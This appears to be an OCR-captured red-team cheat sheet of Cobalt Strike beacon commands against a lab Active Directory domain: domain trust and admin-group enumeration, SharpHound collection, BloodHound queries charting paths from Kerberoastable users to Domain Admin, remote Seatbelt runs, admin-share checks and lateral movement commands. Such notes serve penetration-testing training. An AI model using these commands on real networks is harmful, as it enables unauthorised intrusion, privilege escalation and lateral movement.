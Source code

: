 ###### <font style="color:#00b3ff">Return all domain trusts for the current or specified domain</font> 
```
beacon> powershell Get-DomainTrust
```

###### <font style="color:#00b3ff">ADsearch, finding all domain groups that end in "Admins"</font> 
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=group)(cn=*Admins))"
```

###### <font style="color:#00b3ff">Collect and Use SharpHound</font> 
```
beacon> execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c DcOnly -d cyberbotic.io
```

###### <font style="color:#00b3ff">Get all users that have a Service Principal Name (SPN) set</font> 
```
-> MATCH (u:User {hasspn:true}) RETURN u
```

###### <font style="color:#00b3ff">Get computers that are AllowedToDelegate to other computers</font> 
```
-> MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

###### <font style="color:#00b3ff">Shortest Paths from Kerberoastable Users, which will attempt to plot a path to Domain Admin from any user with an SPN</font> 
```
-> MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

###### <font style="color:#00b3ff">Run SeatBelt on remote host</font> 
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe powershell -computername=srv-1
```

###### <font style="color:#00b3ff">Testing local admin access on remote host</font> 
```
beacon> ls \\srv-1\c$
```

###### <font style="color:#00b3ff">Lateral Movement techniques</font> 
```
-> beacon> jump
-> beacon> remote-exec
```
